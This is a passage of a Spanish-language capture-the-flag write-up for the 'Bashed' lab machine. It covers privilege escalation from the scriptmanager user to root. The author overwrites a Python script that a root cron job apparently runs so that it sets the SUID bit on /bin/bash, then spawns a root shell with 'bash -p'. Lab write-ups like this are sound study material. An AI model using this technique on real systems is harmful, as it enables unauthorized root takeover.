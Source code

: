 ```bash
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 May  6 08:20 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 179 root          root              0 May  6 08:20 proc
drwx------   3 root          root           4096 May  6 08:21 root
drwxr-xr-x  18 root          root            520 May  6 08:20 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 May  6 08:20 sys
drwxrwxrwt  10 root          root           4096 May  6 09:22 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```
Revisandola encontre un script en python perteneciente a scriptmanager y un archivo de texto perteneciente a root.
```bash
scriptmanager@bashed:/$ cd scripts/
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May  6 09:24 test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
scriptmanager@bashed:/scripts$
```
Analizandolos puedo suponer que el usuario root ejecuto el script en python y viendo la creacion del archivo test.txt pude suponer que hay un cron job que ejecuta el archivo cada poco tiempo.
Entonces solo cambie el contenido del archivo test.py por este.
```bash
scriptmanager@bashed:/scripts$ nano test.py
scriptmanager@bashed:/scripts$ cat test.py
import os
os.system('chmod +s /bin/bash')
scriptmanager@bashed:/scripts$
```
Entonces pasado el tiempo revise /bin/bash y tenia el permiso s.
```bash
scriptmanager@bashed:/scripts$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3#
```
Hemos pwneado la maquina!!!
